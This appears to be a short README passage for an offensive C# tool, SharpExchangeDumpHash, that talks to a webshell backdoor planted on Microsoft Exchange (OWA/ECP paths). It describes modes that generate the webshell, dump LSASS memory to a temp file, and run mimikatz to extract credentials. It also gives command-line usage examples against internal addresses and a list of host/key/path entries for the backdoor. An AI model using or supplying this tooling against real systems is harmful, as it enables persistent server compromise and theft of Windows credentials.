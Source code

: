 ```
    192.168.1.1 CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF owa
    mail.test.com CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF ecp    
```

---

## SharpExchangeDumpHash.cs

Use to send payload to the Exchange webshell backdoor.
The communication is encrypted by AES.

Support function:

- generate : generate the webshell
- dumplsass: save the dump file of LSASS to C:\\Windows\\Temp\\lsass.bin
- parsedump: use mimikatz to load C:\\Windows\\Temp\\lsass.bin and save the results to C:\\Windows\\Temp\\mimikatz.log

Usage:

```
    <url> <user> <password> <mode>
```

mode:

- generate
- dumplsass
- parsedump

eg.

```
    SharpExchangeDumpHash.exe https://192.168.1.1/owa/auth/1.aspx no auth dumplsass
    SharpExchangeDumpHash.exe https://192.168.1.1/ecp/Education.aspx user1 123456 parsedump
```

---
